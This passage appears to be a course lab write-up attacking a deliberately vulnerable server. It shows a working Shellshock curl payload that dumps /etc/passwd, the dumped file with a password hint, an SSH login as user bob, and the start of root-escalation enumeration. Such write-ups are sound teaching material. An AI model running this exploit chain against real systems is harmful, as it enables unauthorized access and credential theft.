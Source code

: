 ```bash
curl -v -A "() { : ; }; /bin/bash -c 'echo -e \"Content-type: text/html\n\";
 echo -e \"<html><body>\`cat /etc/passwd\`</body></html>\"'"
 http://vulnserv.wggrs.nl:49163/cgi-bin/fortunecow.sh
```
which gives the result
```
root:x:0:0:root:/root:/usr/local/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
systemd-timesync:x:101:102:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
bob:x:1000:1000:edoc esruoc eht si password ym:/home/bob:/usr/local/bin/bash
alice:x:1001:1001::/home/alice:/usr/local/bin/bash/body></html>
* Connection #0 to host vulnserv.wggrs.nl left intact
```
Here we see something funny with bob. Rearranging some words, we see that his password is the course code.
Thus we try to ssh and when prompted for the password, we fill in "NWI-IBC034", which gives us a access to bob
```bash
ssh bob@vulnserv.wggrs.nl -p <Port running the service>
```
## Getting root acces
Now, we first check to see if we can do a setuid privilege escalation
```bash
bob@vulnhost:~$ find / -perm -u=s -type f 2>/dev/null                                                       
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/lib/openssh/ssh-keysign
/usr/bin/passwd
/usr/bin/gpasswd
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/chsh
/usr/bin/sudo
/bin/su
/bin/mount
/bin/umount

```
This doesnt look promising. Next we  look at all the services running as root
```bash
ps -aux | grep root                                            
root           1  0.0  0.0   3740  2832 ?        Ss   10:20   0:00 /bin/bash /bin/run_services.sh
```
